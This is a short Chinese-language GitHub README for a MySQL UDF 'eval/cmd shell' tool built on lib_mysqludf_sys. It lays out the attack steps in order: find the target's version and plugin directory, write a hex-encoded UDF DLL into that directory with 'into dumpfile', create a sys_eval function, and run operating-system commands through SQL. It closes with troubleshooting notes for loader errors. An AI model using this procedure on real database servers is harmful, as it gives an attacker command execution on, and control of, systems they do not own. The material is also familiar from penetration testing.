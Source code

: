 # mysql_udf #

mysql udf eval/cmd shell

**只适用于MySQL > 5.1**

源码来自https://github.com/mysqludf/lib_mysqludf_sys

dll文件编译自vs2012

    一般过程
    
    >show variables like '%version%';       //查目标Mysql版本
    >show variables like '%plugin%';        //查目标plugin目录
    >select unhex(hex_udf) into dumpfile path/to/plugin/udf.dll;       //通过各种方法导入udf
    >create function sys_eval returns string soname 'udf.dll';         //创建函数
    >select sys_eval(cmd);                  //执行命令

**可能遇到的问题**

 * errno 2
        
        1. udf不存在(有可能被删)
       
 * errno 126
       
        1. 检查编译UDF用到的MySQL版本与目标MySQL版本是否对应
        2. 目标机器是否缺少各种包，如Microsoft Visual C++ 20xx redistrubutable

 * errno 193

        1. udf文件存在，但文件格式错误 (文件损坏)
		2. x86/x64的udf搞混

